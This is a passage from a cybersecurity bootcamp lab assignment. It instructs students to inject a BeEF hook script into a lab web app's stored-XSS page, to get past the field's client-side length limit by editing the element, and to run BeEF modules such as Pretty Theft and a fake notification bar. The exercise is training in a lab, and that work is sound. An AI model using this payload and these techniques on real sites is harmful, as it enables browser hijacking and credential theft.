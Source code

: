      ![A screenshot depicts the command panel.](assets/challenge/wd_hw19.png)

5. Now that you know how to use the BeEF tool, you'll use it to test the Replicants web application. You are tasked with using a stored XSS attack to inject a BeEF hook into Replicants's main website.

   - Task details:
     - You will test the Replicants Stored XSS application page (which we used on the first day of this module): `http://192.168.13.25/vulnerabilities/xss_s/`.
     - The BeEF hook, which was returned after running the `sudo beef` command, was: `http://127.0.0.1:3000/hook.js`.
     - The payload to inject with this BeEF hook is: `<script src="http://127.0.0.1:3000/hook.js"></script>`.

   -  When you attempt to inject this payload,  you will encounter a client-side limitation that will not allow you to enter the whole payload. You will need to find a way around this limitation.    
      
      > **Hint:** Try right-clicking and selecting "Inspecting the Element."
    
   - Once you are able to hook into Replicants's website, attempt a couple of BeEF exploits. Some that may work well include:
     
     - Social Engineering > Pretty Theft
     
     - Social Engineering > Fake Notification Bar
     
     - Host > Get Geolocation (Third Party)
    
6. In your M15 Challenge Submission File, paste a screenshot confirming that you successfully executed this exploit, and write two or three sentences outlining mitigation strategies for this vulnerability.  


### Submission Guidelines

* After you complete your Submission File, title it with the following format: < YOUR NAME >< M15 Challenge Submission File >
* Make sure to set the file permissions so that anyone can view and comment on your document.
* Submit the URL of your Submission File Google Doc through Canvas.

___


© 2023 edX Boot Camps LLC. Confidential and Proprietary. All Rights Reserved. 
